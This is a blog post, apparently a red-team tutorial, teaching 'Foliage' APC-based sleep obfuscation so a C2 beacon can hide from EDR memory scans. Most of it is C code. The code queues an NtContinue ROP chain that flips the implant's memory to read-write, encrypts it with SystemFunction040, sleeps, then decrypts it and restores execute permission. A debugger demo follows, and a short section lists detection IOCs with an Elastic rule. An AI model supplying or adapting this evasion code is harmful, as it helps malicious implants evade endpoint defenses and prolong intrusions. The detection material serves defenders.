







# Introduction

First, we will talk about the types of memory. They are:

- **PRIVATE** – Not shared with other processes and its protection can be changed after allocation. Note: APIs such as [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) and [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) are used, which are means to call [NtAllocateVirtualMemory](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory).
- **MAPPED** – Can be shared with other processes, and its protection cannot be changed after allocation. Note: One way to achieve this is [CreateFileMapping](https://learn.microsoft.com/pt-br/windows/win32/api/winbase/nf-winbase-createfilemappinga) + [MapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile).
- **IMAGE** – Refers to memory that has a backup on disk. For example, the executable that starts the process and the loaded DLLs.

These are categories that represent the values of the ``Type`` parameter in the [MEMORY_BASIC_INFORMATION](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-memory_basic_information) structure, which can be retrieved using the base address of memory passed to the [VirtualQuery](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualquery) API. The most commonly used memory type by malware is private memory, because it allows the protection of memory to be modified at runtime, unlike mapped memory. Command and Control (C2) implants/agents/beacons use [shellcode Reflection DLL Injection (sRDI)](https://oblivion-malware.xyz/posts/shellcode-reflective-dll-injection/) to create shellcode based on a beacon DLL. This technique can be used with evasion loaders to bypass defense solutions.


The loader doesn't need to use a complex technique, as it will only be a Proof of Concept (PoC). First, the injection process occurs, regardless of the evasion technique used. Then, the [shellcode Reflection DLL Injection (sRDI)](https://oblivion-malware.xyz/posts/shellcode-reflective-dll-injection/) specifically acts on the part highlighted in red, reflecting the PE DLL into another private memory space, containing only the sections, and executing the entry point.

## Detection in memory

A memory scan consumes significant computational resources, so the EDR uses criteria to determine where to perform the scan. Among these criteria are memory spaces without backups that have execution permissions, which would signal our beacon. The raw data is also compared with a ``signature/rules`` database.
Another way to detect our beacon is by analyzing the ``call stack`` of the thread. The return of post-exploitation commands and beacon calls in the sleep state would point to our private memory where the beacon resides, indicating that the code is being executed from that address.

In this blog, we will cover how to keep the implant obfuscated in memory, hide execution permissions, and conceal the main code. This approach helps avoid detection by memory scans and prevents analysis by ensuring the memory region has no execute permissions.
## Sleep Obfuscation

Sleep Obfuscation is a technique we can use to hide our beacon in memory from potential memory scans. Essentially, we follow the chain below:

1. Change the memory protection from RX to RW
2. Encrypt the memory region
3. Put the process to sleep for a defined period
4. Decrypt the memory region
5. Change the memory permission from RW back to RX
6. Execute a post-exploitation command from the C2, if available
7. Repeat the obfuscation chain

Now you must be wondering:

- "How do we proceed to the next step after changing the memory protection to RW? We no longer have execution permissions."

At least, I hope you’re asking yourself this question 😁. Well, it would indeed be impossible to execute any instructions with memory in RW without the execution permission, and this is where we use ROP chains (Return-Oriented Programming) with timers or [APCs](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) (Asynchronous Procedure Calls), which are the well-known methods to achieve this.

### Key Concepts: ROP Chains, Timers and APCs

| **Technique**                | **Details**                                                                                   |
|------------------------------|-----------------------------------------------------------------------------------------------|
| **ROP Chains**                | Return-Oriented Programming is a technique where small chunks of executable code (gadgets) are reused to construct a chain of instructions that can perform arbitrary actions. These are useful when direct execution is not possible. |
| **Timers**                    | Timers can be used in ROP chains to schedule the execution of a specific function after a delay. This is useful when you want to control when a piece of code executes after the memory state has been modified. |
| **APCs**                      | Asynchronous Procedure Calls allow you to queue functions to be executed in the context of a thread. This technique can help to run code in a specific thread without needing immediate execution permissions. |


# Foliage

In this article, we will use foliage, which is a sleep obfuscation technique based on [APC](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls). Simplifying the flow of foliage to perform Sleep Obfuscation, it will work as follows:

1. We will create a synchronization event using the NTAPI call [NtCreateEvent](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-zwcreateevent).

```c
Status = Instance()->Win32.NtCreateEvent( &EvtSync, EVENT_ALL_ACCESS, NULL, SynchronizationEvent, FALSE );
if ( Status != 0x00 ) {
    PrintErr( "NtCreateEvent", Status );
}
```

2. We will create a suspended thread (the thread where the chain mentioned above will be executed).

```c
Status = Instance()->Win32.NtCreateThreadEx( &hSlpThread, THREAD_ALL_ACCESS, NULL, NtCurrentProcess(), NULL, NULL, TRUE, 0, 0x1000 * 20, 0x1000 * 20, NULL );
if ( Status != 0x00 ) {
    PrintErr( "NtCreateThreadEx", Status );
}
```

3. We will retrieve the context of the created thread and transfer it to other [CONTEXT](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-context) structures, where the chain will be constructed.

```c
CtxMain.ContextFlags = CONTEXT_FULL;
Status = Instance()->Win32.NtGetContextThread( hSlpThread, &CtxMain );
if ( Status != 0x00 ) {
    PrintErr( "NtGetContextThread", Status );
}
```

4. We will set the Rsp register to always return to [NtTestAlert](https://ntdoc.m417z.com/nttestalert). This is done because [NtTestAlert](https://ntdoc.m417z.com/nttestalert) checks if there are any pending APCs to be executed. If so, they will be executed.

```c
*(PVOID*)CtxMain.Rsp = Instance()->Win32.NtTestAlert;
```

5. After populating the other [CONTEXT](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-context) structures with the values returned in CtxMain, we can finally execute the chain.

```c
/* 
 * wait EvtSync gets triggered
 * NtWaitForGingleObject( EvtSync, FALSE, NULL ); 
 */
RopSetEvt.Rip = NtWaitForSingleObject;
RopSetEvt.Rcx = EvtSync;
RopSetEvt.Rdx = FALSE;
RopSetEvt.R9  = NULL;

/*
 * Change implant protection to RW
 * VirtualProtect( ImageBase, ImageSize, PAGE_READWRITE, &OldProt ); 
 */
RopProtRw.Rip = VirtualProtect;
RopProtRw.Rcx = ImageBase;
RopProtRw.Rdx = ImageSize;
RopProtRw.R8  = PAGE_READWRITE;
RopProtRw.R9  = &OldProt;

/*
 * memory encryption
 * SystemFunction( &Img, &Key );
 */
RopMemEnc.Rip = SystemFunction040;
RopMemEnc.Rcx = ImageBase;
RopMemEnc.Rdx = ImageSize;

/*
 * delay
 * WaitForSingleObjectEx( NtCurrentProcess(), SleepTime, FALSE );
 */
RopDelay.Rip = Instance()->Win32.WaitForSingleObjectEx;
RopDelay.Rcx = NtCurrentProcess();
RopDelay.Rdx = SleepTime;
RopDelay.R8  = FALSE;

/*
 * memory decryption
 * SystemFunction( &Img, &Key );
 */
RopMemDec.Rip = Instance()->Win32.SystemFunction041;
RopMemDec.Rcx = ImageBase;
RopMemDec.Rdx = ImageSize;

/*
 * change memory to execute and read
 * VirtualProtect( ImageBase, ImageSize, PAGE_EXECUTE_READ, &oldProt );
 */
RopProtRx.Rip = Instance()->Win32.VirtualProtect;
RopProtRx.Rcx = ImageBase;
RopProtRx.Rdx = ImageSize;
RopProtRx.R8  = PAGE_EXECUTE_READ;
RopProtRx.R9  = &OldProt;

/*
 * exit thread
 * RtlExitUserThread( 0x00 );
 */
RopExit.Rip = Instance()->Win32.RtlExitUserThread;
RopExit.Rcx = 0x00;

```

6. Now, we enqueue the [APC](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) with the [CONTEXT](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-context) structures and pass it as a parameter to [NtContinue](https://ntdoc.m417z.com/ntcontinue).

```c
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopSetEvt, FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopProtRw, FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopMemEnc, FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopDelay , FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopMemDec, FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopProtRx, FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopExit  , FALSE, NULL );
```

7. Finally, we will resume the thread, trigger the synchronization event, and let it run while the current thread sleeps.

```c
Status = Instance()->Win32.NtAlertResumeThread( hSlpThread, NULL );
if ( Status != 0x00 ) {
    PrintErr( "NtAlertResumeThread", Status );
}

Instance()->Win32.printf( "[I] Trigger sleep obf chain\n\n" );

Status = Instance()->Win32.NtSignalAndWaitForSingleObject( EvtSync, hSlpThread, TRUE, NULL );
if ( Status != 0x00 ) {
    PrintErr( "NtSignalAndWaitForSingleObject", Status );
}
```

# Demo

Opening our implant in [x64dbg](https://x64dbg.com/) and setting breakpoints on the routine functions of the chain to see the step-by-step process. We will also use software that provides more information about processes. In this case, I will be using [Process Hacker](https://processhacker.sourceforge.io/), but alternatively, [Process Explorer](https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer) from Sysinternals can be used.



The loader we use provides us with the base allocation address. Now, below we will access the address.



Deobfuscated region


Visualization of the Deobfuscated Memory Area

At this point, we have plaintext strings, and the memory region is separated into RX and RW. Now, we will see the result of the first [VirtualProtect](https://learn.microsoft.com/pt-br/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect).



Executing [VirtualProtect](https://learn.microsoft.com/pt-br/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) RX → RW



Result of Executing [VirtualProtect](https://learn.microsoft.com/pt-br/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) RX → RW

After execution, the memory region was set to RW as expected. The next step is to encrypt it using `SystemFunction040`.


Executing `SystemFunction040` to encrypt the memory area



Visualization of the Obfuscated Memory Region

Next, we can observe the obfuscated memory region. This is how we find it during sleep. Now, we proceed to decrypt it using `SystemFunction041`.



Executing ``SystemFunction041``


Above, the decrypted data, and the memory region returns to 12KB RX and 4KB RW.



# Detections and IOCs
As mentioned earlier, one way to analyze a process is by inspecting the thread stack and observing the calling function. This method can be used to flag our implant, as during the sleep state, the thread will be pointing back to the memory region set to RW. This is problematic for us, as it makes detection easier. 

post-ex activity:


Sleep routine:


Another method of detection involves the callback from [VirtualProtect](https://learn.microsoft.com/pt-br/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) to [NtTestAlert](https://ntdoc.m417z.com/nttestalert), which is commonly used for security monitoring. For example, Elastic EDR leverages this IOC (Indicator of Compromise) to detect suspicious activity, [rule here](https://github.com/elastic/protections-artifacts/blob/136fd6e69610426de969e3d01b98bb9ce10607b2/behavior/rules/windows/defense_evasion_virtualprotect_call_via_nttestalert.toml#L4).


However, there are ways to improve our Sleep Obfuscation to bypass these detection techniques. One such method I will cover in this blog is ``Stack Duplication``.

Another interesting technique is **Module Stomping**, which will be the topic of the next article in this blog.

# Reference and credits
- [https://dtsec.us/2023-04-24-Sleep/](https://dtsec.us/2023-04-24-Sleep/)
- [https://x.com/ilove2pwn_](https://x.com/ilove2pwn_)
- [https://maldevacademy.com/](https://maldevacademy.com/)
- [Designer: Ian Melo (ichumbo)](https://www.instagram.com/ichumbo/)